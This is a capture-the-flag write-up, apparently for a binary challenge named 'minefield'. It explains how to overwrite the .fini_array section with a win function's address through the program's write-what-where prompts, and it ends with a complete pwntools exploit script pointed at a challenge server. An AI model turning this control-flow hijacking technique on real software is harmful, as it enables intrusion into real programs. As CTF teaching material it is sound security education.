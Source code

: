 - We get the address of the section **.fini_array**:

```python
fini_array_addr = binary.get_section_by_name('.fini_array').header.sh_addr
```

> We can also add the address manually by retrieving it via the command `info files` inside `gdb`. But doing it this way is less elegant than using `pwntools` directly ^^

- We can print these two addresses in hexadecimal::

```python
pwn.info("Win function '_' address: 0x%x" % win_fn)
pwn.info(".fini_array section address: 0x%x" % fini_array_addr)
```

- The binary waits for 3 inputs:

1. "Are you ready to plant the mine?" &rarr; "2" and then call the `mission()` function
2. "Insert type of mine:" &rarr; address where we will write to
3. "Insert location to plant:" &rarr; address we want to write

> Before interacting directly with the server on which the binary is being executed, it is better to test the exploit locally by creating a "flag.txt" file and check if we called the "`_`" function successfully.

- With the following exploit it is possible to recover the flag:

```python
import pwn

host = "138.68.147.232"
port = 30174

remote = True

binary_path = './minefield'
binary = pwn.ELF(binary_path)

if remote:
    r = pwn.remote(host,port)
else:
    r = pwn.process(binary_path)

win_fn = binary.symbols['_'] # nm minefield | grep "_"
fini_array_addr = binary.get_section_by_name('.fini_array').header.sh_addr # (gdb) info files

pwn.info("Win function '_' address: 0x%x" % win_fn)
pwn.info(".fini_array section address: 0x%x" % fini_array_addr)

r.sendlineafter(">", b"2")                                     
r.sendlineafter("Insert type of mine: ", str(fini_array_addr))
r.sendlineafter("Insert location to plant: ", str(win_fn))

r.interactive()
r.close()
```
